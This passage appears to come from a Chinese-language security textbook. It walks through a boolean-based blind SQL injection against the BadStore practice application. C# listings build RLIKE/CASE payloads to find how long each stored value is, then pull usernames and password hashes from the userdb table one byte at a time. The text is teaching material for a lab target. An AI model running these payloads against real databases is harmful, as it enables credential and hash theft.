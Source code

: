 列表 2-46: MakeRequest() 方法发送负载并返回服务器的响应

我们创建了一个基本的 GET HttpWebRequest ➋，使用负载和 URL ➊ 指向 BadStore 实例。然后，通过 StreamReader ➌，我们读取响应并将其返回给调用者。现在我们运行攻击，应该会收到类似列表 2-47 中显示的输出。

> userdb 表中有 23 行，列表 2-47: 确定 userdb 表中的行数

在执行完第一个攻击代码后，我们看到有 23 个用户需要提取用户名和密码哈希。接下来的攻击步骤将提取实际的用户名和密码哈希。

获取值的长度

在我们能够逐字节地从数据库中的列提取任何值之前，我们需要先获取值的长度。列表 2-48 展示了如何完成这一过程。

> private static int GetLength(int row➊, string column➋)
> 
> {
> 
> int countLength = 0;
> 
> for (;; countLength++)
> 
> {
> 
> string getCountLength = "fdsa' RLIKE (SELECT (CASE WHEN ((SELECT";
> 
> getCountLength += " LENGTH(IFNULL(CAST(➌CHAR_LENGTH("+column+") AS";
> 
> getCountLength += " CHAR),0x20)) FROM userdb ORDER BY email ➍LIMIT";
> 
> getCountLength += row+",1)="+countLength+") THEN 0x28 ELSE 0x41 END)) AND";
> 
> getCountLength += " 'YIye'='YIye";
> 
> string response = MakeRequest(getCountLength);
> 
> if (response.Contains("parentheses not balanced"))
> 
> break;
> 
> }

列表 2-48: 获取数据库中某些值的长度

GetLength() 方法接受两个参数：一个是要从中提取值的数据库行 ➊，另一个是值将存储的数据库列 ➋。我们使用 for 循环（见列表 2-49）来获取 userdb 表中行的长度。但与之前的 SQL 负载不同，我们使用 CHAR_LENGTH() ➌ 函数而不是 LENGTH，因为提取的字符串可能是 16 位 Unicode 而非 8 位 ASCII。我们还使用 LIMIT 子句 ➍ 来指定要从完整的用户表中提取特定行的值。在获取数据库中值的长度之后，我们可以像 列表 2-49 中所示，逐字节提取实际的值。

> List<byte> countBytes = ➊new List<byte> ();
> 
> for (int i = 0; i <= countLength; i++)
> 
> {
> 
> for (int c = 48; c <= 58; c++)
> 
> {
> 
> string getLength = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT";
> 
> getLength += " IFNULL(CAST(CHAR_LENGTH(" + column + ") AS CHAR),0x20) FROM";
> 
> getLength += " userdb ORDER BY email LIMIT " + row + ",1)," + i;
> 
> getLength += ",1))="+c+") THEN 0x28 ELSE 0x41 END)) AND 'YIye'='YIye";
> 
> string response = ➋MakeRequest(getLength);
> 
> if (response.➌Contains("parentheses not balanced"))